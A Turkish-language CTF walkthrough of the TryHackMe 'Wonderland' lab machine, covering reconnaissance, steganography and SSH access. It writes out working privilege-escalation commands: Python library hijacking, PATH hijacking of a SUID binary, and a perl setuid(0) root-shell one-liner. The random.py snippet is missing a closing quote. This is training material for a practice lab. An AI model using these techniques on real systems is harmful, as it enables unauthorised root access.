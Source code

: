 ```yaml
---
title: "THM Wonderland Write Up"
date: 2020-10-08T12:39:20+03:00
draft: false
toc: true
images:
tags: [Tryhackme,write-up,Cap,steghide,ctf,suid,Library Hijacking] 
categories: [write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere Tryhackme'de yer alan orta seviye zorluktaki [Wonderland](https://tryhackme.com/room/wonderland) adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."
cover : images/thm/wonderland/cover.png
  
---
```


Merhaba, Bu yazımda sizlere Tryhackme'de yer alan orta seviye zorluktaki [Wonderland](https://tryhackme.com/room/wonderland) adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar...

## 1. Keşif Aşaması

Nmap ile makinenin açık portları ve portlarda çalışan servisleri tespit edilir.

```bash
sudo nmap -sV -sC 10.10.248.80
```

{{< image src="/images/thm/wonderland/nmap.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Sistemde sadece 2 port açıktır. Web sayfasına giriş yapılır.

{{< image src="/images/thm/wonderland/web1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Gobuster aracı ile dizin taraması yapılır. 3 adet dizin tespit edilir.

```bash
gobuster dir -u http://10.10.248.80/ -w /usr/share/wordlists/dirb/big.txt 
```

{{< image src="/images/thm/wonderland/gobuster1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

/img dizine girilir. Dizindeki tüm resim dosyaları indirilir. 

{{< image src="/images/thm/wonderland/img.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

**steghide** aracı ile resimler içerisine gizlenmiş olan dosyalar tespit edilir. Yapılan kontrolde white_rabbit.jpg dosyası içerisinde hint.txt adlı bir dosya gizlenmiştir.

{{< image src="/images/thm/wonderland/steg.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Dosya içeriğine bakıldığında tavşanı takip etmemiz söyleniyor. :rabbit2: 

{{< image src="/images/thm/wonderland/hint.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

***/r*** dizin içeriği görüntülenir. Daha dizin içerisinde gobuster ile dizin taramasına devam edilir.

{{< image src="/images/thm/wonderland/r.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

```bash
gobuster dir -u http://10.10.248.80/r/ -w /usr/share/wordlists/dirb/big.txt
```

{{< image src="/images/thm/wonderland/gobuster2.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

***/r*** dizini içerisinde ***/a*** dizini tespit edilir. İpucunda olan tavşan mevzusunun ne olduğu anlaşılır.:bulb:Tarayıcından ***http://ipadresi/r/a/b/b/i/t*** adresine istek atılır.

{{< image src="/images/thm/wonderland/rabbit.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Sayfa kaynak kodları incelendiğinde gizli bir bilgi tespit edilmektedir. 

{{< image src="/images/thm/wonderland/ssh.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

Elde edilen bilgi herhangi bir login paneli tespit edilmediğinde ssh bağlantısı için kullanılır.

```bash
ssh alice@10.10.248.80
```
{{< image src="/images/thm/wonderland/ssh1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

## 3. Yetki Yükseltme

`Sudo -l` ile kullanıcının yetkileri kontrol edilir. Rabbit kullanıcısı yetkisi ile *walrus_and_the_carpenter.py* dosyası çalıştırılmaktadır. 

{{< image src="/images/thm/wonderland/sudo.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

walrus_and_the_carpenter.py içeriğine bakıldığında poem değişkeni içerisinde yer alan metinden rastgele belirlenen 10 satır ekrana basılmaktadır. 

{{< image src="/images/thm/wonderland/py.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Rabbit kullanıcısına Hijacking Python Library tekniği ile geçilir. Aynı dizinde random.py adında dosya oluşturulur. İçerisine çalıştırmak istediğimiz kodlar yazılır. Uygulama çalıştığında random kütüphanesi import edilirken bizim yazdığımız kodlar import edilecektir. 

```python
import os
os.system("/bin/bash)
```
```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
Rabbit kullanısının home dizine geçilerek dosyalar listelenir. Suid biti aktif olan ***teaParty*** adında bir dosya görülmektedir.

{{< image src="/images/thm/wonderland/rabbito.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Dosya çalıştırıldığında Hatter'ın partiye geleceği bilgisi ekrana basılmakta ve uygulama kullanıcıdan girdi beklemektedir. Herhangi bir tuşa basınca ekrana Segmentation Fault yazdırılmaktadır. 

```terminal
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 07 Oct 2020 20:06:29 +0000
Ask very nicely, and I will give you some tea while you wait for him
ls
Segmentation fault (core dumped)
```

Binary ayrıntılı incelenmek üzere locale indirilir. Daha sonra Ghidra ile analiz edilir. 

{{< image src="/images/thm/wonderland/ghidra.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Setuid(0x3eb) ve setguid(0x3eb) ile uid değeri Hatter (1003) kullanıcısına set edilir. Burada dikkat çeken echo ve date komutlarının çalıştırılmasıdır. Echo komutu için tam yol belirtilirken, date komutu için path belirtilmemiştir. Date komutu PATH değişkeninde tanımalanan dizinlerde sıra ile aranmaktadır.

1. *Date dosyası oluşturulur.*
2. *Date dosya dizini PATH değişkenine eklenir.*

```bash
rabbit@wonderland:/home/rabbit$ echo /bin/bash > date
rabbit@wonderland:/home/rabbit$ chmod 777 date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit/:$PATH
```

Dosya çalıştırılarak ***hatter*** kullanıcısına geçiş yapılır. Hatter dizini içeriğine göz atılır.

{{< image src="/images/thm/wonderland/matter.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Password.txt dosyasında yer alan parola bilgisi ile hatter kullanıcısına geçiş yapılır.

```bash
ssh hatter@localhost
```
Hatter kullanıcısı yetkileri ile sistem hakkında bilgi toplamak için LinEnum betiği çalıştırılır. Betik çıktısında capability yetkileri olan dosyalar dikkat çekmektedir.

{{< image src="/images/thm/wonderland/cap.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Perl uygulamasının *setuid* ile yetkilerinin yükseltilerek kernele sistem çağırısı yapılabilceği tespit edilmektedir. ***uid değeri 0 (root)*** set edilir ve /bin/bash uygulaması çalıştırılır.

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
{{< image src="/images/thm/wonderland/priv.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

*/root* dizini içerisinde yer alan user.txt dosyası,

{{< image src="/images/thm/wonderland/userflag.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}


 ve */home/alice* dizininde yer alan root.txt dosyaları okunarak makina çözümlemesi tamamlanır.

{{< image src="/images/thm/wonderland/rootflag.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}




